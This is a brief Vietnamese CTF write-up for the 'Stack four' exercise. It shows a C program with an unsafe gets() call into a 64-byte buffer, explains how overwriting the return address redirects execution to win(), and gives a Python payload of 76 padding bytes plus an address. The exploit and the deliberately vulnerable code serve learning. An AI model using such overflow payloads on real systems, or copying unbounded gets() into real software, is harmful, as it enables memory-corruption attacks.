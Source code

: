 # Stack four

source code của chương trình:

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

Ý tưởng của bài này là chúng ta phải làm tràn buffer, và ghi đè địa chỉ của hàm win vào bên trong con trỏ rip. Lúc này, chương trình sẽ in ra được `code flow successfully changed`

Để làm dược điều này, trước hết chúng ta phải nhắc lại cấu trúc của stack:


Caau hỏi to đùng ở đây là bên trong stack nó trông như này 
![Alt text](image-1.png)

thì làm thế nào mà chương trình ghi đè lại cần tới 76 byte "A" 
`note tạm lại đã`


Truyền vào chương trình payload như sau:
![Alt text](image-2.png)


thực thi chương trình với gdb và kiểm tra thông tin các thanh ghi ở cuối chương trình, ta có:
![Alt text](image-3.png)


ở đây `eip` đang có giá trị `0x54545454` tương ứng với `TTTT`
do đó ta chỉ cần thay `TTTT` thành địa chỉ của win là được

chương trình sinh payload:
```py
print("A"*(64+12) +  "\xf4\x83\x04\x08")
```
và thực thi
![Alt text](image-4.png)

Xong